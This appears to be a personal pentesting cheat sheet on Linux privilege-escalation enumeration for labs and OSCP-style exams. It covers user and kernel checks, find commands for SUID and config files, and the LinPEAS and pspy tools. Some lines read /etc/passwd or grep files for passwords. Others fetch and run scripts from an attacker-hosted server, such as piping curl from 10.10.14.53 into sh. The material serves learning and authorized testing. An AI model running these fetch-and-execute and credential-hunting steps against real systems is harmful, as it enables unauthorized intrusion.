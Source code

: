 # Linux Enumeration

## Check who you are

```bash
┌──(mac㉿kali)-[~]
└─$ whoami
mac
```

or alternatively use `id` to see more information about your `uid` and which groups you are in:

```bash
┌──(mac㉿kali)-[~]
└─$ id
uid=1000(mac) gid=1000(mac) groups=1000(mac),27(sudo)
```

## Check for other people
Read the `/etc/passwd` file to see a list of users on the box:

```bash
$ cat /etc/passwd
```

Many of these users will relate to certain services, and not be a real person. Look for real users by filtering by those with a real login shell:

```bash
$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
mac:x:1000:1000:Mac,,,:/home/mac:/bin/bash
```

## Check kernel information

```bash
┌──(mac㉿kali)-[~]
└─$ uname -a
Linux kali 5.10.0-kali5-amd64 #1 SMP Debian 5.10.24-1kali1 (2021-03-23) x86_64 GNU/Linux
```

**What does this mean?**

The kernel is a central part of the operating system. This command tells you about the distribution (Kali Linux), the version, and the word size (`x86_64`, i.e. 64-bit)

## Reading all Files
This command concatenates the contents of any readable files in the current working directory:

```bash
$ cat */*
```

It can be combined with a `grep` to look for passwords, for example:

```bash
$ cat */* | grep pass
```

However, it is not particularly efficient on a large number of files - try to use it within a specific directory

## Find Command

Find files by user ownership (from [this post](https://unix.stackexchange.com/questions/22747/finding-files-by-their-owner-and-file-permissions))

```bash
$ find / -user userX
```

Find files by group ownership (from [this post](https://unix.stackexchange.com/questions/159244/find-files-belonging-to-a-group))

```bash
$ find / -group groupX
```
  
Find config files and redirect errors:

```bash
$ find / -name '*.conf' 2>/dev/null
```

Find suid files:

```bash
$ find . -perm /4000
```

Exclude a filename or other query with the `-not` or `!` operator:

```bash
$ find . -not -name "*.exe"

#exclude directories and files beginning with "sys"
$ find /var ! -name "sys*" ! -type d
```

As always, filter your output with `grep` if your find command is not granular enough:

```bash
# anything with "backup" in the name
$ find / -type f | grep backup

#get rid of stuff from /proc and /var/lib
$ find / -user user | grep -v 'proc\|var/lib'

#get rid of error messages (useful if the > operator doesn't work in a shell)
$ find / -user user | grep -v 'Permission denied'
```

You can even use regex in your `find` command with the `-regex` flag:

```bash
$ find ./ ! -regex  '.*\(deb\|vmdk\)$'
```

Or use logical operators like `-o` (logical OR):
```bash
$ find /media/d/ -type f -size +50M ! \( -name "*deb" -o -name "*vmdk" \)
```

(both of the above examples from https://unix.stackexchange.com/questions/50612/how-to-combine-2-name-conditions-in-find#)

## Linpeas
Install Linpeas from [GitHub](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

--

**IMPORTANT UPDATE:** on 22/04/21 @\_superhero1 on twitter revealed they [failed OSCP](https://twitter.com/_superhero1/status/1385206684109447168) because of a linpeas auto exploit regarding sudo tokens. They were eventually awarded the revoked points, but OffSec made it clear they would not be lenient in future. The offending auto exploit feature [was removed](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/issues/125), but you must make sure you use the [fixed version](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/commit/14601ecd35585537f0fe0041e411ecff0fcd27a8) of LinPeas, which has been [confirmed](https://www.offensive-security.com/offsec/understanding-pentest-tools-scripts/) by OffSec to be exam safe.

--

Placing `linpeas.sh` in `~/Documents/enum` allows you to easily retrieve it with a simple python server. See [[Cheat Sheets/Aliases#Useful Aliases|Useful Aliases]] for `enumserve` alias setup instructions.

On attacker machine:

```bash
$ enumserve
```

Find your IP address ([[Linux Networking#Get your IP]])

On target machine:

```bash
$ wget [IP]:8000/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

You can also send it directly to `sh`/`bash` if `wget` is not installed:

```bash
$ curl 10.10.14.53:8000/linpeas.sh | sh
```

Sometimes firewall rules may prevent you from accessing port 8000 - try running the server on port 80 if you aren't getting any results (requires root permissions):

```bash
$ sudo python3 -m http.server 80
```

## Standard Directories to Check
```
/home
/var/www
/var/backups
/var/logs
/opt
/usr/share
/usr/share/local
```

## List Processes & Services
List processes:

```bash
$ ps aux
```

Pspy monitoring:

```bash
$ wget [IP]:8000/pspy64
$ chmod +x pspy64
$ ./pspy64
```

List services:

```bash
$ netstat
```

```bash
$ ss -lntp
```

```bash
$ systemctl list-units --type=service --state=running
```

**Why is this useful?**

- It allows you to see what might be running on a system - and therefore what might be a vulnerable process or service
- It gives you clues to the purpose/role of the user or the system
- It may help you identify processes that belong to higher-privileged users

# Tags

#cheat-sheet #enum #unix 